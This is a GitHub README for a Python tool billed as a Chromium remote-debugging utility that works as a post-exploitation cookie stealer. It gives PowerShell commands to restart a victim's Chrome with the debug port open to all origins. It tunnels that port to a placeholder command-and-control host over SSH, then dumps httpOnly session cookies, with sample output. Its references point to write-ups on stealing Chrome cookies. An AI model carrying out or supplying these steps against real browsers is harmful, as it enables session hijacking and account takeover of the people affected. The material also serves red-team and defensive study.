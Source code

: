 # chrome-remote

> Utility for remote debugging of Google Chrome, Microsoft Edge and other Chromium-based browsers.

# Setup

Install with [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/chrome-remote.git
~~~

# Usage

Restart the browser with remote debugging enabled.

~~~ powershell
Get-Process chrome | Stop-Process
Start-Process 'C:\Program Files\Google\Chrome\Application\chrome.exe' -ArgumentList '--user-data-dir="C:\Users\jdoe\AppData\Local\Google\Chrome\User Data" --restore-last-session --remote-debugging-port=9222 --remote-allow-origins=*'
~~~

Then forward `localhost:9222` back to your machine.

~~~ powershell
ssh.exe -R 127.0.0.1:9222:127.0.0.1:9222 proxy@c2.example.com
~~~

Now you can access the browser over the remote debugging protocol and, for example, list open tabs and installed extensions.

~~~ bash
chrome-remote list-tabs
chrome-remote list-extensions
~~~

Or dump session cookies.

~~~ bash
❯ chrome-remote dump-cookies | jq -r '.[]|select(.domain == "example.com")'
{
  "name": "sessid",
  "value": "SFE0R1REZFF0NFZCVTlMbEdSTEN5QXcxZloyS0tDVDg=",
  "domain": "example.com",
  "path": "/",
  "expires": -1,
  "size": 44,
  "httpOnly": true,
  "secure": true,
  "session": true,
  "sameSite": "None",
  "priority": "Medium",
  "sameParty": false,
  "sourceScheme": "Secure",
  "sourcePort": 443
}
...
~~~

# References

- [Stealing Chrome cookies without a password](http://web.archive.org/web/20240616123506/https://mango.pdf.zone/stealing-chrome-cookies-without-a-password)
- [Post-Exploitation: Abusing Chrome's debugging feature to observe and control browsing sessions remotely](http://web.archive.org/web/20240521025448/https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)
- [Hands in the Cookie Jar: Dumping Cookies with Chromium’s Remote Debugger Port](http://web.archive.org/web/20240624212635/https://scribe.rip/@specterops/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e)
- [cookie_crimes](https://github.com/defaultnamehere/cookie_crimes)
- [WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut)
- [Debugging Cookie Dumping Failures with Chromium’s Remote Debugger](http://web.archive.org/web/20230721071951/https://scribe.rip/@slyd0g/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f) and [ripWCMN.py](https://gist.github.com/slyd0g/955e7dde432252958e4ecd947b8a7106#file-ripWCMN-py)
- [Chrome DevTools Protocol Documentation](https://chromedevtools.github.io/devtools-protocol/tot/Storage/)
